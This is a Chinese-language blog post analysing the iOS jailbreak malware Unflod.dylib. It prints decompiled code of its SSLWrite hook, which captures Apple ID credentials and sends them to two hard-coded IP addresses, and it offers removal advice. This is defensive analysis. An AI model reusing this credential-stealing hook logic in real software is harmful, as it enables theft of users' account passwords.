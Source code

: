 ```yaml
---
layout: post   
title: 对iOS恶意软件Unflod的分析       
categories: 
- iOS   
tags:     
- iOS
---    
```


###介绍

 tdvx在Reddit上发帖说：从上周起，他用Snapchat和Google Hangouts的使用经常遇到crash，经过排查，他发现是下面这个可疑文件导致的：/Library/MobileSubstrate/DynamicLibraries/Unflod.dylib
 
 i0n1c对这个可疑文件进行了分析,[iOS Malware Campaign "Unflod Baby Panda"][1]
 
<br>
###分析

这个恶意文件位于：/Library/MobileSubstrate/DynamicLibraries/Unflod.dylib或者framework.dylib。依赖于MobileSubstrate，只在越狱设备上起作用。



    ｀int __fastcall replace_SSLWrite(int a1, char *a2, int a3, int a4)
     {
     ......
     
     if ( !findhead )
      {
        v19 = strstr(v22, "/WebObjects/MZFinance.woa/wa/authenticate HTTP/1.1");
        if ( v19 )
        {
          findhead = 1;
          strcpy(content, v22);
        }
      }
      if ( findhead == 1 )
      {
        v18 = strstr(v22, "<key>appleId</key>");
        v17 = strstr(v22, "<key>password</key>");
        if ( v18 )
        {
          if ( v17 )
          {
            strcat(content, v22);
            v16 = strstr(content, "</plist>");
            if ( v16 && v16 - content <= 2040 )
              v16[8] = 0;
            v14 = 0;
            v15 = socket(2, 1, 0);
            if ( v15 < 0 )
            {
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v13.sa_family = 2;
            *(_WORD *)&v13.sa_data[0] = 0xC61Eu;
            *(_DWORD *)&v13.sa_data[2] = inet_addr("23.88.10.4");
            if ( connect(v15, &v13, 0x10u) < 0 )
            {
              close(v15);
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v5 = v15;
            v6 = strlen(content);
            v14 = write(v5, content, v6);
            v11 = 0;
            close(v15);
            v12 = socket(2, 1, 0);
            if ( v12 < 0 )
            {
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v10.sa_family = 2;
            *(_WORD *)&v10.sa_data[0] = 0xC61Eu;
            *(_DWORD *)&v10.sa_data[2] = inet_addr("23.228.204.55");
            if ( connect(v12, &v10, 0x10u) < 0 )
            {
              close(v12);
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v7 = v12;
            v8 = strlen(content);
            v11 = write(v7, content, v8);
            close(v12);
            findhead = 2;
          }
        }
      }
      v24 = pSSLWrite(v23, v22, v21, v20);
    LABEL_20:
      if ( __stack_chk_guard != v25 )
        __stack_chk_fail(__stack_chk_guard, v24, v25, v4);
      return v24;
    }


这个恶意代码通过 Hook Security.framework的SSLWrite方法（Hook函数为replace_SSLWrite），截取Apple id和密码，然后把这些信息发送到IP为23.88.10.4、3.228.204.55，端口为7878的服务器。（端口为7878，也就是上面的0xC61Eu。注意，这里是big endian模式。所以，端口其实是0x1EC6,即7878。）



<br>
###签名
这个恶意软件被iPhone开发者证书签名。签名信息如下：

    $ codesign -vvvv -d Unflod.dylib
    Executable=./Unflod.dylib
    Identifier=com.your.framework
    Format=Mach-O thin (armv7)
    CodeDirectory v=20100 size=227 flags=0x0(none) hashes=3+5 location=embedded
    Hash type=sha1 size=20
    CDHash=da792624675e82b3460b426f869fbe718abea3f9
    Signature size=4322
    Authority=iPhone Developer: WANG XIN (P5KFURM8M8)
    Authority=Apple Worldwide Developer Relations Certification Authority
    Authority=Apple Root CA
    Signed Time=14 Feb 2014 04:32:58
    Info.plist=not bound
    Sealed Resources=none
    Internal requirements count=2 size=484
    
需要注意的是，**这并不表示这个人就是这个事情的始作俑者**。这个人可能是假冒的，也可能是其证书被偷窃，也可能是真正涉及到这个事情，但是，我们没有办法知道，但是，苹果需要调查这个事情。


*“This person might be a fake persona, the victim of certificate theft or really involved. It is impossible for us to know, but Apple should be able to investigate from this information and terminate that developer account.[1]“*


<br>
###解决方法

如果你的设备上有Unflod.dylib/framework.dylib这两个文件，把其删掉，然后重新设置Apple id和密码就可以了。

<br>
###结束语
没有越狱的用户不用担心Unflod这个恶意软件。iOS 7之后，输入法，电话黑名单等功能系统都自带，用户也没必要越狱了。


**建议普通用户别越狱。越狱需谨慎。**



<br>
 i0n1c分析的原文是：[iOS Malware Campaign "Unflod Baby Panda"][1]
<br>

###关于我
大家好，我是[@吴发伟Ted](http://weibo.com/wufawei)，我会在博客上分享自己学习的一些东西。

###好文推荐  && iOS Wiki

[好文推荐(news.ios-wiki.com)][5]和[iOS Wiki(www.ios-wiki.com)][6]是我利用业余时间建立的网站。

###微信公众账号
微信公众账号：**iOS技术分享**  
![](http://farm3.staticflickr.com/2826/10855679484_56b7429bd6_m.jpg)




<br/>

[1]:https://www.sektioneins.de/en/blog/14-04-18-iOS-malware-campaign-unflod-baby-panda.html

[2]:http://www.ios-wiki.com/issues/12
[3]:http://www.ios-wiki.com/mobile/issues/12

[5]:http://news.ios-wiki.com
[6]:http://www.ios-wiki.com
